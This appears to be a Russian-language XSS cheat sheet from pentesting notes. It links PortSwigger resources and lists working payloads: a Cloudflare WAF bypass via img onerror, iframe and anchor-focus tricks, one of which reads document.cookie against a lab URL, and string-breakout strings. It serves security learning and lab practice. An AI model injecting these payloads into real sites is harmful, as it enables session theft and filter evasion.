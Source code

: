# Cheat Sheets

Прекрасный cheatsheet от Portswigger по XSS.\
Можно выбрать какие элементы вам доступны, какие действия и пр., отсортировать по типу взаимодействия. А также скопировать все полученные пейлоады по одной кнопке[\
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

`XSS Cloudflare WAF bypass:`\
`<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert1;>`

Тренировочные лабы от Portswigger - [https://portswigger.net/research/documenting-the-impossible-unexploitable-xss-labs](https://portswigger.net/research/documenting-the-impossible-unexploitable-xss-labs)

Полиглоты: [https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

Есть особый случай: автодополнение тегов: \<strong>test  ->  \<strong>test\</strong>

## Другие особые случаи&#x20;

### Из PortSwigger Labs (XSS)

Вызвать событие onresize для открываемой в iframe ссылке

```markup
<iframe src="https://example.com/?search=..." onload=this.style.width='100px'> 
```

Перевести фокус на элемент (и тем самым вызвать срабатывание onfocus) через якорь:

```
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dtest+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#test';
</script> 
```

Если по каким-то причинам мы не можем закрыть оставшуюся часть полезной нагрузки, то можно закрыть комментарием — `//`. Например: `\'; alert(123); //`.

При обработке HTML-страницы сначала декодится htmlencode, затем уже интерпретируется JS-код. => можно использовать символы `&apos;` и тп, сначала декодируются они.

